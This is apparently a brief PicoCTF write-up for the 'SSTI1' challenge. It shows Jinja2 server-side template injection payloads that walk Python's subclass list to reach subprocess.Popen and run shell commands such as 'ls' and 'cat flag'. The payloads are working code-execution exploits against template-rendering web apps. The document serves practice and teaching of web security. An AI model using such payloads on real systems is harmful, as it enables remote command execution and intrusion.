






# SSTI1 (PicoCTF)

`https://play.picoctf.org/practice/challenge/492`

```
Author: Venax
Description
I made a cool website where you can announce whatever you want! Try it out! I heard templating is a cool and modular way to build web apps! Check out my website here!
```

https://book.hacktricks.wiki/en/pentesting-web/ssti-server-side-template-injection/jinja2-ssti.html





Template engine of the webserver is jinja2 > flask/django.



`{{ ().__class__.__base__.__subclasses__() }}`



Turns out we have access to `subprocess.Popen`. 

`{{ ().__class__.__base__.__subclasses__()[356] }}`

After further enumeration, we found the index.

`{{ ().__class__.__base__.__subclasses__()[356]('ls',shell=True,stdout=-1).communicate()[0].strip()}}`



Final payload:

`{{ ().__class__.__base__.__subclasses__()[356]('cat flag',shell=True,stdout=-1).communicate()[0].strip()}}`

